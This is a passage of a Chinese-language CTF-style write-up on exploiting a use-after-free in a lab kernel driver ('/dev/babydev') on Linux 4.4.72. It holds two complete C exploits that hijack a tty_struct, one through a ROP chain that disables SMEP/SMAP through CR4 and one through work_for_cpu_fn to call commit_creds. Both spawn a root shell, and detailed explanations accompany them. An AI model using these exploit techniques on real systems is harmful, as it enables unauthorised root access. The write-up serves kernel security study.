- **进程PID 952（子进程）的`uid`和`gid`已变为0（root用户）**。

这最终验证了4-1步骤5（篡改关键数据）的成功：通过`fd2`的悬空指针写入的0数据，已成功将子进程`cred`结构体中的`uid`、`gid`等权限字段清零，子进程由此获得了root权限。利用链至此全部完成，利用目标达成。

#### 4-7-4. 调试总结

本次调试追踪完整地可视化了漏洞利用链中每一个理论环节在实际系统中的具体表现：

1.  **内存状态控制**：验证了可以精确释放特定大小（`0xa8`）的`kmalloc-192`缓存块，并保留其悬空引用。
2.  **缓存合并利用**：核心发现，`cred_jar`的分配请求重用了刚释放的`kmalloc-192`内存块，为漏洞利用提供了至关重要的内存布局条件。
3.  **权限篡改结果**：直观展示了通过悬空引用写入用户态数据，直接导致了内核关键安全对象（`cred`）被篡改，并立即生效（子进程UID/GID变为0）。

调试结果与4-1节所述的利用步骤及4-4节的内存状态序列图完全吻合，从实践角度强化了对该UAF漏洞利用机制的理解，也凸显了通过`SLAB_ACCOUNT`标志隔离安全敏感缓存以防御此类利用的必要性。

### 4-8. 技术总结

本实战演练通过分析一个具体的技术演示，深入探讨了Linux内核v4.4.72中`cred`结构体的分配路径、SLUB缓存机制及其安全影响。关键要点包括：

1.  **完整的调用链**：`fork() → SYSCALL_DEFINE0(fork) → _do_fork() → copy_process() → copy_creds() → prepare_creds() → kmem_cache_alloc(cred_jar, GFP_KERNEL)`

2.  **漏洞利用的核心条件**：
    - 存在一个可触发UAF的驱动缺陷。
    - **`cred_jar`缓存未设置`SLAB_ACCOUNT`标志，导致其与`kmalloc-192`缓存合并**，使得通过通用`kmalloc`释放的内存可被`cred`分配复用。这是利用成功的架构性前提。
    - 能精确控制相同大小内存块的释放与重新分配的时机。

3.  **技术演示逻辑与修正**：
    - 通过两次打开同一设备创建共享的内存引用。
    - 精确控制内存分配大小（0xa8）和释放时机，制造悬空指针。
    - 利用`fork()`触发`cred`结构体分配，并借助缓存合并特性实现堆布局。
    - 通过悬空指针篡改子进程`cred`，实现提权。

4.  **安全机制上下文**：
    - v4.4.72内核中`cred_jar`缓存的可合并性是此漏洞利用的关键，**这与内核使用的是SLAB还是SLUB分配器无关**，两者都存在缓存合并的配置选项。
    - 现代内核通过为安全敏感缓存（如`cred_jar`）添加`SLAB_ACCOUNT`等标志进行隔离，这是针对SLUB/SLAB分配器的重要加固手段。
    - 理解特定版本内核的底层机制对精准分析漏洞利用条件和评估修复方案至关重要。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 6. 进阶分析：tty_struct结构利用其一

exploit核心代码如下：

```c
#define PTY_UNIX98_OPS 0xffffffff81a67ac0
#define PTM_UNIX98_OPS 0xffffffff81a67be0
#define COMMIT_CREDS 0xffffffff810759e0
#define PREPARE_KERNEL_CRED 0xffffffff81075cd0

#define PUSH_RDI_POP_RSP_POP_RBP_RET 0xffffffff81304c50
#define ADD_RSP_0X60_POP_RBX_POP_RBP_RET 0xffffffff8102e714
#define POP_RAX_RET 0xffffffff811e51f0
#define MOV_CR4_RAX_POP_RBP_RET 0xffffffff8100f554

#define TTY_STRUCT_SIZE 0x2e0

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t user_cs, user_ss, user_rflags, user_sp;
size_t kernel_base = 0xffffffff81000000;
size_t kernel_offset;

void save_status() {
  asm volatile("mov user_cs, cs;"
               "mov user_ss, ss;"
               "mov user_sp, rsp;"
               "pushf;"
               "pop user_rflags;");
  log.info("Status has been saved.");
}

void bind_core(int core) {
  cpu_set_t cpu_set;

  CPU_ZERO(&cpu_set);
  CPU_SET(core, &cpu_set);
  sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
  log.info("Process binded to core %d", core);
}

void get_root_shell(void) {
  int flag_fd;
  char flag[0x100] = {0};
  if (getuid()) {
    log.error("Failed to get the root!");
    exit(-1);
  }

  log.success("Successful to get the root. Execve root shell now...");
  flag_fd = open("/root/flag", O_RDONLY);
  if (flag_fd < 0) {
    log.error("failed to open /root/flag!");
    exit(-1);
  }
  read(flag_fd, flag, sizeof(flag) - 1);
  log.success("Got flag: %s", flag);
  system("/bin/sh");
}

void *(*prepare_kernel_cred_kfunc)(void *task_struct);
int (*commit_creds_kfunc)(void *cred);

void ret2usr_attack(void) {
  prepare_kernel_cred_kfunc = (void *(*)(void *))prepare_kernel_cred;
  commit_creds_kfunc = (int (*)(void *))commit_creds;

  (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

  asm volatile("mov rax, user_ss;"
               "push rax;"
               "mov rax, user_sp;"
               "sub rax, 8;" /* stack balance */
               "push rax;"
               "mov rax, user_rflags;"
               "push rax;"
               "mov rax, user_cs;"
               "push rax;"
               "lea rax, get_root_shell;"
               "push rax;"
               "swapgs;"
               "iretq;");
}

int main() {
  int i = 0;
  size_t *rop_chain = NULL;
  size_t fake_tty[TTY_STRUCT_SIZE / 8] = {0};
  size_t fake_tty_addr = 0;

  log.info("Start to exploit...");
  save_status();
  bind_core(0);

  int fd1 = open("/dev/babydev", O_RDWR);
  int fd2 = open("/dev/babydev", O_RDWR);

  ioctl(fd1, 0x10001, TTY_STRUCT_SIZE);
  close(fd1);

  int fd3 = open("/dev/ptmx", O_RDWR | O_NOCTTY);
  if (fd3 < 0) {
    log.error("Failed to open /dev/ptmx!");
    exit(-1);
  }
  read(fd2, fake_tty, TTY_STRUCT_SIZE - 8);

  if ((fake_tty[0] & 0xffff) != 0x5401) {
    log.error("Try Again!");
    exit(-1);
  }

  if ((fake_tty[3] & 0xfff) == (PTY_UNIX98_OPS & 0xfff)) {
    kernel_offset = fake_tty[3] - PTY_UNIX98_OPS;
    kernel_base += kernel_offset;
    log.success("leak pty_unix98_ops: 0x%lx", fake_tty[3]);
  }

  if ((fake_tty[3] & 0xfff) == (PTM_UNIX98_OPS & 0xfff)) {
    kernel_offset = fake_tty[3] - PTM_UNIX98_OPS;
    kernel_base += kernel_offset;
    log.success("leak ptm_unix98_ops: 0x%lx", fake_tty[3]);
  }

  log.success("kernel base: 0x%lx", kernel_base);
  log.success("kernel offset: 0x%lx", kernel_offset);

  prepare_kernel_cred = kernel_offset + PREPARE_KERNEL_CRED;
  commit_creds = kernel_offset + COMMIT_CREDS;

  fake_tty_addr = fake_tty[0x38 / 8] - 0x38;
  log.success("fake_tty_addr: 0x%lx", fake_tty_addr);

  rop_chain = &fake_tty[16];
  fake_tty[1] = kernel_offset + ADD_RSP_0X60_POP_RBX_POP_RBP_RET;
  fake_tty[4] = kernel_offset + PUSH_RDI_POP_RSP_POP_RBP_RET;

  i = 0;
  rop_chain[i++] = kernel_offset + POP_RAX_RET;
  rop_chain[i++] = 0x6f0;
  rop_chain[i++] = kernel_offset + MOV_CR4_RAX_POP_RBP_RET;
  rop_chain[i++] = 0;
  rop_chain[i++] = (size_t)ret2usr_attack;
  fake_tty[3] = fake_tty_addr - 0x18;
  write(fd2, fake_tty, TTY_STRUCT_SIZE - 8);

  char buffer[0x8] = {0};
  write(fd3, buffer, 0x8);
  return 0;
}
```

本章节将深入剖析一种基于 `tty_struct` 结构体的内核释放后使用（Use-After-Free）条件的技术研究。该方法展示了如何不依赖于进程创建操作（如`fork()`），而是通过操控伪终端设备，结合精确的内核信息获取与复杂的控制流引导技术，完成一次对特定内核状态的演示与分析。相较于直接篡改 `cred` 结构体的方法，此技术路径展现了更强的通用性以及对现代处理器硬件保护机制的对抗能力。

### 6-1. 技术原理与过程分析

本节将分步拆解基于 `tty_struct` 的完整技术演示流程，阐述其核心原理。

#### 6-1-1. 共享状态建立与漏洞条件触发

研究程序首先通过连续两次打开存在特定设计缺陷的字符设备 `/dev/babydev`，获取文件描述符 `fd1` 与 `fd2`。该设备驱动使用一个全局共享的数据结构（`babydev_struct`）来管理其内部缓冲区，且未引入任何同步互斥机制。这导致 `fd1` 与 `fd2` 在用户空间表现为两个独立的句柄，但在内核层面却指向并操作着同一块内存区域，为后续制造状态混乱创造了条件。

#### 6-1-2. 精确内存控制与悬空指针制造

通过 `fd1` 调用驱动的 `ioctl` 命令（参数 `0x10001`），并指定大小为 `TTY_STRUCT_SIZE`（此值需与目标内核版本中 `tty_struct` 结构体的实际大小精确匹配，例如 `0x2e0` 字节）。该操作会释放驱动当前的缓冲区，并立即重新分配一块指定大小的新内存。随后，执行 `close(fd1)` 操作。此调用会触发驱动的释放函数，从而将刚刚分配的、大小为 `TTY_STRUCT_SIZE` 的内存块释放回内核内存分配器。然而，`fd2` 仍然通过驱动内的全局指针持有对该已释放内存区域的引用，从而成功制造出一个“悬空指针”。

#### 6-1-3. 目标内核对象分配与堆布局实现

执行 `fd3 = open(“/dev/ptmx“, O_RDWR | O_NOCTTY)` 以打开一个伪终端主设备。此操作会在内核中触发 `tty_struct` 结构体的分配与初始化（通过 `alloc_tty_struct` 函数）。由于内核的 SLUB 等内存分配器具有重用最近释放的、大小相符的内存块的倾向，因此新分配的 `tty_struct` 有极大概率占据上一步中刚刚释放的 `TTY_STRUCT_SIZE` 内存块。至此，`fd2` 所持有的悬空指针便实际指向了一个活跃的内核 `tty_struct` 对象，成功实现了预期的堆内存布局。

#### 6-1-4. 内核信息获取与地址随机化绕过

通过 `read(fd2, fake_tty, TTY_STRUCT_SIZE - 8)` 系统调用，利用 `fd2` 的悬空指针，将内核中 `tty_struct` 对象的当前内容读取到用户空间缓冲区 `fake_tty` 中。该结构体内包含一个关键成员 `const struct tty_operations *ops`，这是一个指向内核静态数据区中某个已知函数表（例如 `ptm_unix98_ops` 或 `pty_unix98_ops`）的指针。通过将泄露出的指针值与编译时已知的符号地址进行比对，可以精确计算出内核镜像的加载偏移量（`kernel_offset`），进而得到所有内核符号的运行时地址，从而完全绕过内核地址空间布局随机化（KASLR）保护。此外，通过解析 `fake_tty` 缓冲区的特定字段（如偏移 `0x38` 处），可以进一步推导出该 `tty_struct` 对象自身在内核堆上的线性地址（`fake_tty_addr`）。

#### 6-1-5. 构造控制流序列与对抗硬件保护机制

此步骤是应对 SMEP（管理者模式执行保护）和 SMAP（管理者模式访问保护）等现代处理器保护机制的核心。研究程序在用户空间的 `fake_tty` 缓冲区中进行精密的数据构造：

1.  **布设栈迁移指令序列**：在 `fake_tty` 数组的特定索引位置（例如索引 1 和 4）填入预先搜寻到的内核指令片段（gadget）地址。这些 gadget 的功能通常是调整栈指针寄存器 RSP（例如 `ADD RSP, 0x60` 或 `PUSH RDI; POP RSP`），其作用是在控制流被触发时，将内核执行流的栈空间重定向至预设的内存区域。
2.  **构建权限管理代码链（ROP链）**：从 `&fake_tty[16]` 开始，布置一条完全由内核 gadget 地址组成的链式序列（ROP链）：
    - 第一个 gadget（如 `POP RAX; RET`）将立即数 `0x6f0` 载入 RAX 寄存器。该数值经过精心计算，用于清除 CR4 寄存器中控制 SMEP 的第 20 位和控制 SMAP 的第 21 位。
    - 第二个 gadget（如 `MOV CR4, RAX; POP RBP; RET`）将 RAX 的值写入 CR4 寄存器，从而**动态地关闭 SMEP 与 SMAP 硬件保护**。
    - ROP 链的末尾放置研究者定义在用户空间的函数地址（`ret2usr_attack`），该函数包含后续的权限变更逻辑。
3.  **篡改关键控制指针**：将 `fake_tty[3]`（对应 `tty_struct->ops` 指针）修改为指向一个**内核堆地址**（例如 `fake_tty_addr – 0x18`）。此操作至关重要，它确保了在 SMAP/SMEP 保护生效的初期，内核在解引用此函数指针时不会因指针指向用户空间而触发处理器异常。该被指向的内核地址处的内容，已在步骤1中被设置为栈迁移 gadget 的地址。

#### 6-1-6. 写回数据以篡改内核对象状态

通过 `write(fd2, fake_tty, TTY_STRUCT_SIZE - 8)` 系统调用，将第五步中构造的、包含恶意 ROP 链、栈迁移 gadget 及篡改指针的完整 `fake_tty` 数据，写回内核并覆盖真实的 `tty_struct` 对象。至此，目标内核对象的关键内容已被完全篡改。

#### 6-1-7. 触发多阶段控制流引导与权限变更

通过 `write(fd3, buffer, 8)` 向伪终端设备写入数据，从而触发最终的执行序列：

1.  **初始控制流转移**：内核处理写操作，循着被篡改的 `tty->ops->write` 指针执行。由于该指针指向内核堆上的栈迁移 gadget，控制流首先跳转至该处执行栈迁移，将栈指针 RSP 重定向至布置好的 ROP 链起始位置。
2.  **执行ROP链并解除硬件限制**：处理器开始执行位于内核可控区域的 ROP 链。该链中的代码完全由内核片段组成，安全地运行在内核态，并成功执行修改 CR4 寄存器的指令，**动态地关闭了 SMEP 和 SMAP 保护**。
3.  **安全跳转至用户空间**：ROP 链执行完毕后的 `RET` 指令，将控制流引导至用户空间函数 `ret2usr_attack` 的地址。由于此时处理器的 SMEP 保护已被临时禁用，从内核态跳转到用户空间执行代码的操作得以顺利进行。
4.  **完成权限变更演示**：`ret2usr_attack` 函数得以执行，其内部通过调用内核提供的权限管理函数（如 `commit_creds(prepare_kernel_cred(0))`），修改当前进程的凭证结构，从而演示了一次完整的权限状态变更，最终使进程获得更高级别的权限。

### 6-2. 技术特性对比与总结

本方法与基于 `cred` 结构体的直接数据篡改方法相比，在利用本质、依赖条件和实现复杂度上存在根本性差异，如下表所示：

| 特性维度           | 基于 `cred` 结构体的方法                                                                                | 基于 `tty_struct` 结构体的方法                                                                |
| :----------------- | :------------------------------------------------------------------------------------------------------ | :-------------------------------------------------------------------------------------------- |
| **利用本质**       | **数据对象篡改**。直接修改安全关键数据结构（`uid`, `gid` 等字段）的内容。                               | **控制流劫持**。通过篡改函数指针引导执行流，属于更底层、更通用的利用原语。                    |
| **核心依赖条件**   | 高度依赖 `cred_jar` 专用缓存与通用 `kmalloc` 缓存合并这一特定内核配置（如未设置 `SLAB_ACCOUNT` 标志）。 | 仅需存在可触发分配、且大小匹配的内核对象（`tty_struct`），对内核版本和配置的通用性更强。      |
| **对抗的防护机制** | 主要需绕过 KASLR。对 SMEP/SMAP 不敏感，因其直接在内核态修改数据。                                       | 需系统性地绕过 KASLR、SMEP、SMAP，并常需额外处理 KPTI（内核页表隔离）。                       |
| **技术复杂度**     | 相对较低，流程直接，主要涉及内存布局和数据覆盖。                                                        | 极高。涉及信息泄露、堆内存布局操控、多阶段 ROP 链构造、栈迁移、硬件寄存器操作等多项复杂技术。 |
| **对象分配触发器** | 由 `fork()`、`execve()` 等进程生命周期事件触发。                                                        | 由打开 `/dev/ptmx` 等常见的终端设备操作触发，可利用的机会更多。                               |

### 6-3. tty_struct关键函数路径分析

为了更深入地理解基于 `tty_struct` 的技术演示中两个核心系统调用的内在机制，本节将详细剖析 `open("/dev/ptmx")` 与 `write(fd3, buffer, 0x8)` 在内核中的完整执行路径。这些路径从用户空间请求开始，历经虚拟文件系统（VFS）分发、设备驱动处理，最终触及内核对象的内存分配与关键函数指针的调用，清晰地揭示了整个技术链中实现内存布局操控与控制流劫持的精确触发点。

#### 6-3-1. `open` 系统调用：触发 `tty_struct` 对象分配

当研究程序执行 `open("/dev/ptmx", O_RDWR | O_NOCTTY)` 以获取伪终端主设备时，内核中触发如下调用序列，其核心目的是分配并初始化一个 `tty_struct` 结构体：

1.  **系统调用入口**：用户空间的 `open()` 库函数通过 `SYSC_openat` 系统调用陷入内核。
2.  **VFS路径解析**：内核通过 `do_sys_open()`、`do_filp_open()`、`path_openat()` 及 `do_last()` 等一系列函数，解析路径 `/dev/ptmx`，定位到其对应的文件索引节点（inode）。
3.  **执行文件打开操作**：`vfs_open()` 调用具体文件系统的打开方法。对于字符设备文件，其 `inode->i_fop` 指向字符设备通用操作集，从而进入 `chrdev_open()` 函数。
4.  **字符设备驱动分发**：`chrdev_open()` 根据设备的主次设备号，找到对应的 `struct cdev` 及其 `file_operations` 结构（对于 `/dev/ptmx`，即 `ptmx_fops`）。
5.  **伪终端特定初始化**：驱动调用 `ptmx_fops` 中定义的 `ptmx_open()` 函数（位于 `drivers/tty/pty.c`）。此函数是伪终端创建的枢纽。
6.  **创建tty设备**：`ptmx_open()` 调用 `tty_init_dev()` 函数，负责创建一个新的伪终端对（PTY），这包括分配从设备（`pts`）和初始化主设备。
7.  **内核堆内存分配**：在 `tty_init_dev()` 的执行过程中，会调用 `alloc_tty_struct()`。该函数最终通过 `kzalloc(sizeof(struct tty_struct), GFP_KERNEL)`，从内核的通用 `kmalloc` 缓存中分配一块大小精确为 `sizeof(struct tty_struct)` 并已清零的内存，用于承载这个新的 `tty_struct` 对象。

以下流程图直观展示了从用户空间调用到内核内存分配的完整路径：



**流程说明**：

- 绿色框表示用户空间调用起点
- 橙色框表示核心内存分配操作
- 紫色框表示流程终点，成功获得`tty_struct`对象

**路径核心总结**：此调用链的终点是 `kzalloc(sizeof(struct tty_struct), GFP_KERNEL)`。在本次技术演示的上下文中，研究程序预先释放了一块同等大小的内存，随后触发此 `open` 路径。由于内核SLUB分配器对同类大小内存块的重用特性，新分配的 `tty_struct` 对象有极高概率占据被预先释放的内存区域，从而实现了精确的堆内存布局操控，为后续的“释放后使用”创造了条件。

#### 6-3-2. `write` 系统调用：触发控制流劫持

当研究程序通过获得的伪终端文件描述符 `fd3` 执行 `write(fd3, buffer, 0x8)` 时，将触发另一条内核路径，其终点是解引用 `tty_struct` 中的函数指针，从而成为控制流劫持的最终触发器：

1.  **系统调用入口**：用户空间的 `write()` 库函数通过 `SYSC_write` 系统调用陷入内核。
2.  **VFS写操作分发**：内核通过 `vfs_write()` 和 `__vfs_write()`，根据 `fd3` 找到对应的 `struct file` 对象。对于TTY设备文件，其 `file->f_op->write` 通常指向 `tty_write` 函数。
3.  **TTY子系统通用处理**：`tty_write()` 是TTY子系统的通用写入口，它获取必要的锁后，调用 `do_tty_write()` 进行实际处理。
4.  **行规程（Line Discipline）处理**：在 `do_tty_write()` 中，写请求被传递给当前tty设备关联的“行规程”。对于标准的伪终端，其行规程为 `n_tty`（规范模式），因此会调用 `n_tty_write()` 函数。
5.  **调用底层驱动操作**：在 `n_tty_write()` 函数的执行流中，经过必要的缓冲和转换后，最终会调用`tty->ops->write(tty, file, buf, count)`方法。**此调用是整个技术演示的终极触发点**。此时，`tty` 指针指向已被篡改的 `tty_struct` 对象。

以下流程图清晰地展示了从写操作开始到触发控制流劫持的分支路径：



**流程说明**：

- 绿色框表示用户空间调用起点
- 红色框表示**关键触发点**：`tty->ops->write`函数指针调用
- 蓝色框表示分支判断点，区分正常执行与技术演示场景
- 橙色框表示技术演示中的控制流劫持与ROP链执行阶段
- 紫色框表示演示的最终目标：执行用户空间提权代码

**路径核心总结**：此调用链的终点是 `tty->ops->write(tty, file, buf, count)`。在正常运行状态下，`ops->write` 指针指向设备驱动（如 `ptm_unix98_ops.write`）的真实函数，用于将数据写入硬件或从设备。然而，在本演示场景中，由于通过UAF漏洞篡改了该 `tty_struct` 对象中的 `ops` 指针，控制流在此处被劫持。内核将跳转到预设的地址（一个用于栈迁移的内核gadget），进而开启一段完全可控制的ROP链执行过程，最终实现权限变更。这一分析清晰地表明，一个常见的文件写操作如何成为引爆复杂内核级控制流劫持的导火索。

### 6-4. 研究结论

本次对 `tty_struct` 结构体的释放后使用条件研究，完整地展示了一条复杂而精妙的内核级漏洞利用链。该技术不依赖于特定内核子系统（如凭证缓存）的细微实现差异，而是纯粹通过释放后使用这一内存安全缺陷，实现了**任意内核信息读取**与**任意内核对象写入**两种强大的内存操作能力。研究过程进一步演示了如何将这两种能力转化为控制流劫持，并通过精心构造的、完全由内核自身代码片段组成的 ROP 链，动态地修改处理器的硬件安全设置（CR4 寄存器），以一种迂回的方式有效克服了 SMEP/SMAP 带来的直接访问限制。最终，在硬件保护被临时解除后，安全地将执行权交还给用户空间代码以完成既定操作。这项研究要求研究者具备对操作系统内核架构、CPU 硬件特性、编译器代码生成及内存管理子系统的深刻理解，充分体现了系统安全领域高层级的研究复杂性与对抗性。

### 6-5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 7. 进阶分析：tty_struct结构利用其二

exploit核心代码如下：

```c
#define PTY_UNIX98_OPS 0xffffffff81a67ac0
#define PTM_UNIX98_OPS 0xffffffff81a67be0
#define COMMIT_CREDS 0xffffffff810759e0
#define INIT_CRED 0xffffffff81e39e60
#define WORK_FOR_CPU_FN 0xffffffff8106b4e0

#define TTY_STRUCT_SIZE 0x2e0

size_t user_cs, user_ss, user_rflags, user_sp;
size_t kernel_base = 0xffffffff81000000;
size_t kernel_offset;

void save_status() {
  asm volatile("mov user_cs, cs;"
               "mov user_ss, ss;"
               "mov user_sp, rsp;"
               "pushf;"
               "pop user_rflags;");
  log.info("Status has been saved.");
}

void bind_core(int core) {
  cpu_set_t cpu_set;

  CPU_ZERO(&cpu_set);
  CPU_SET(core, &cpu_set);
  sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
  log.info("Process binded to core %d", core);
}

void get_root_shell(void) {
  int flag_fd;
  char flag[0x100] = {0};
  if (getuid()) {
    log.error("Failed to get the root!");
    exit(-1);
  }

  log.success("Successful to get the root. Execve root shell now...");
  flag_fd = open("/root/flag", O_RDONLY);
  if (flag_fd < 0) {
    log.error("failed to open /root/flag!");
    exit(-1);
  }
  read(flag_fd, flag, sizeof(flag) - 1);
  log.success("Got flag: %s", flag);
  system("/bin/sh");
}

int main() {
  int i = 0;
  size_t *rop_chain = NULL;
  size_t fake_tty[TTY_STRUCT_SIZE / 8] = {0};
  size_t origin_tty[TTY_STRUCT_SIZE / 8] = {0};
  size_t fake_tty_addr = 0;

  log.info("Start to exploit...");
  save_status();
  bind_core(0);

  int fd1 = open("/dev/babydev", O_RDWR);
  int fd2 = open("/dev/babydev", O_RDWR);

  ioctl(fd1, 0x10001, TTY_STRUCT_SIZE);
  close(fd1);

  log.info("opening tty_struct...");
  int fd3 = open("/dev/ptmx", O_RDWR | O_NOCTTY);
  if (fd3 < 0) {
    log.error("Failed to open /dev/ptmx!");
    exit(-1);
  }
  read(fd2, fake_tty, TTY_STRUCT_SIZE - 8);
  read(fd2, origin_tty, TTY_STRUCT_SIZE - 8);

  if ((fake_tty[0] & 0xffff) != 0x5401) {
    log.error("Try Again!");
    exit(-1);
  }

  if ((fake_tty[3] & 0xfff) == (PTY_UNIX98_OPS & 0xfff)) {
    kernel_offset = fake_tty[3] - PTY_UNIX98_OPS;
    kernel_base += kernel_offset;
    log.success("leak pty_unix98_ops: 0x%lx", fake_tty[3]);
  }

  if ((fake_tty[3] & 0xfff) == (PTM_UNIX98_OPS & 0xfff)) {
    kernel_offset = fake_tty[3] - PTM_UNIX98_OPS;
    kernel_base += kernel_offset;
    log.success("leak ptm_unix98_ops: 0x%lx", fake_tty[3]);
  }

  log.success("kernel base: 0x%lx", kernel_base);
  log.success("kernel offset: 0x%lx", kernel_offset);

  fake_tty_addr = fake_tty[0x38 / 8] - 0x38;
  log.success("fake_tty_addr: 0x%lx", fake_tty_addr);

  log.info("changing the tty_struct->ops...");
  fake_tty[3] = fake_tty_addr;

  // Change the ioctl of tty_operations to work_for_cpu_fn function
  log.info("changing the tty_operations->ioctl");
  fake_tty[12] = kernel_offset + WORK_FOR_CPU_FN;
  fake_tty[4] = kernel_offset + COMMIT_CREDS;
  fake_tty[5] = kernel_offset + INIT_CRED;

  log.info("writing changed tty_struct...");
  write(fd2, fake_tty, TTY_STRUCT_SIZE - 8);

  log.info("exploiting ioctl...");
  ioctl(fd3, 0xdeadbeaf, 0xdeadbeaf);

  log.info("fix the tty_struct...");
  write(fd2, origin_tty, TTY_STRUCT_SIZE - 8);
  close(fd3);

  get_root_shell();
  return 0;
}
```

本章将分析另一种基于 `tty_struct` 结构体的内核释放后使用（Use-After-Free）条件的技术研究。本方法展示了一条独特的技术路径：它通过修改`tty_struct`中的`tty_operations->ioctl`函数指针，使其指向内核辅助函数 `work_for_cpu_fn`，并通过精确控制`tty_struct`对象自身的内存布局，使其在函数调用时能够被解释为一个`struct work_for_cpu`结构体，从而**借助内核自身的代码执行逻辑**完成一次权限状态变更的演示。

### 7-1. 技术过程与原理分析

#### 7-1-1. 条件触发与信息获取（前期准备）

此阶段与第六章节基础流程一致，旨在制造特定的内存状态并获取必要信息，最终使得一个文件描述符保留对内核中活跃`tty_struct`对象的引用，并成功计算出内核偏移与对象地址。

#### 7-1-2. 修改内核对象与数据结构构造

此步骤是本方法的核心，关键在于**构造数据，使`tty_struct`的内存布局可被重新解释**。

1.  **修改`tty_struct->ops`指针**：将`fake_tty[3]`（即`tty_struct->ops`）修改为`fake_tty_addr`。这使得`tty_struct`的操作表指针指向了其自身所在的物理内存块。

2.  **在内存中构造特定数据结构**：在`fake_tty`缓冲区的特定偏移处布置数据，使其布局与`struct work_for_cpu`兼容：
    - `fake_tty[4]`：设置为`commit_creds`函数的地址。在`struct work_for_cpu`的布局中，此偏移对应`fn`成员（一个函数指针）。
    - `fake_tty[5]`：设置为`init_cred`的地址。此偏移对应`arg`成员（一个参数指针）。
    - `fake_tty[12]`：此为计算后对应伪造的`tty_operations`结构体中`ioctl`成员的偏移。将其修改为`work_for_cpu_fn`函数的地址。因此，后续对`tty->ops->ioctl`的调用将指向此函数。

3.  **写回数据以修改内核对象状态**：通过`write`系统调用将构造好的`fake_tty`数据写回内核，完成对目标对象内容的修改。

#### 7-1-3. 触发控制流与执行逻辑

通过`ioctl(fd3, 0xdeadbeaf, 0xdeadbeaf)`触发后续执行。内核中的处理路径如下：

1.  **触发`ioctl`调用链**：内核调用`tty->ops->ioctl(tty, file, cmd, arg)`。
2.  **控制流转入`work_for_cpu_fn`**：由于`tty->ops->ioctl`已被修改为`work_for_cpu_fn`，控制流跳转至该函数。根据调用约定，第一个参数（`rdi`寄存器）即为传入的`tty`指针，也就是被修改的`tty_struct`对象的内核地址（`fake_tty_addr`）。该参数在`work_for_cpu_fn`中对应`struct work_struct *work`。
3.  **数据结构重新解释与函数执行**：`work_for_cpu_fn`的函数逻辑如下：

    ```c
    struct work_struct {
     	atomic_long_t data;
     	struct list_head entry;
     	work_func_t func;
      #ifdef CONFIG_LOCKDEP
     	struct lockdep_map lockdep_map;
      #endif
    };
    struct work_for_cpu {
     	struct work_struct work;
     	long (*fn)(void *);
     	void *arg;
     	long ret;
    };
    static void work_for_cpu_fn(struct work_struct *work)
    {
        struct work_for_cpu *wfc = container_of(work, struct work_for_cpu, work);
        wfc->ret = wfc->fn(wfc->arg); // 执行fn指针指向的函数
    }
    ```

    - `container_of`宏根据`work`指针（即`fake_tty_addr`）和结构体内偏移，计算出外层`struct work_for_cpu`的起始地址。
    - **由于内存布局已被精心构造，从`fake_tty_addr`开始的内存被成功地解释为一个`struct work_for_cpu`**。其中`wfc->fn`指向`commit_creds`，`wfc->arg`指向`init_cred`。

4.  **完成权限状态变更**：因此，`wfc->fn(wfc->arg)`这行代码的实际执行效果变为 **`commit_creds(init_cred)`**。这是一个完全在内核空间发生的、符合内核调用规范的函数执行，演示了将当前进程权限进行变更的过程。

5.  **恢复内核对象原始状态**：权限状态变更完成后，代码执行`write(fd2, origin_tty, TTY_STRUCT_SIZE - 8)`。此操作至关重要，它将之前备份的原始`tty_struct`数据（保存在`origin_tty`中）写回内核，恢复被篡改的`tty_struct`对象。如果不进行此恢复操作，被修改的`tty_struct`（特别是其`ops`指针）可能导致后续任何通过该伪终端设备（`fd3`）进行的操作（例如在`get_root_shell()`中与终端交互）触发不可预期的内核行为或崩溃，因为其内部指针已被篡改，不再指向有效的`tty_operations`函数表。

6.  **清理与后续操作**：恢复状态后，关闭伪终端文件描述符`fd3`，然后调用`get_root_shell()`函数启动一个具有新权限的shell进程。

### 7-2. `work_for_cpu_fn` 函数原理解析

`work_for_cpu_fn` 是Linux内核工作队列机制中的一个辅助函数。其设计目的是在指定的CPU核心上执行一个用户提供的函数。理解其工作原理是理解本技术演示的关键。

- **功能定位**：该函数是工作队列系统的一部分，用于异步执行任务。工作队列允许将任务推迟执行，并且可以指定在哪个CPU上运行。
- **数据结构关系**：
    - `struct work_struct`：表示一个待执行的工作项。它包含一个函数指针成员`func`，指向实际要执行的函数（例如`work_for_cpu_fn`）。
    - `struct work_for_cpu`：一个包装结构，它内嵌了一个`work_struct`，并额外增加了三个成员：`fn`（要执行的用户函数）、`arg`（用户函数的参数）和`ret`（用户函数的返回值）。
- **执行流程**：
    1.  当内核调度到某个`work_struct`时，会调用其`func`成员指向的函数。
    2.  如果`func`指向`work_for_cpu_fn`，则该函数会通过`container_of`宏，从传入的`work_struct`指针推导出外层`struct work_for_cpu`结构体的地址。
    3.  接着，`work_for_cpu_fn`执行`wfc->fn(wfc->arg)`，即调用用户预先设置好的函数`fn`，并传入参数`arg`。
    4.  最后，将返回值存储在`wfc->ret`中。
- **在本演示中的角色**：巧妙地利用了`work_for_cpu_fn`“执行一个由数据指定的函数指针”这一行为。通过精确控制`tty_struct`对象的内存布局，使其在`work_for_cpu_fn`的上下文中被重新解释为一个`struct work_for_cpu`。于是，对`tty->ops->ioctl`的调用，被转化为对`work_for_cpu_fn`的调用，进而触发对预设函数指针（`commit_creds`）的执行。**整个过程中，控制流始终在内核预定义的合法函数之间转移，没有执行任何非预期的指令序列，因此天然绕过了SMEP/SMAP等防护机制。**

### 7-3. 技术对比与总结

本方法的精髓在于“数据结构复用”和“合法执行路径引导”。它不注入外部代码，而是通过控制数据布局，引导内核将一种类型的对象（`tty_struct`）按照另一种类型（`work_for_cpu`）的语义进行解释，并利用该类型固有的、由数据驱动的代码执行路径来达成目标。

| 特性维度          | 基于ROP链劫持`write`的方法         | 基于`work_for_cpu_fn`劫持`ioctl`的方法                                    |
| :---------------- | :--------------------------------- | :------------------------------------------------------------------------ |
| **技术本质**      | 控制流劫持，执行拼接的指令序列。   | **数据驱动/类型混淆**。通过控制数据布局，引导内核逻辑执行预设的函数指针。 |
| **对抗SMEP/SMAP** | 需通过指令序列显式关闭相关保护位。 | **自然符合规范**。全程执行内核文本段中的导出函数，不涉及用户空间代码。    |
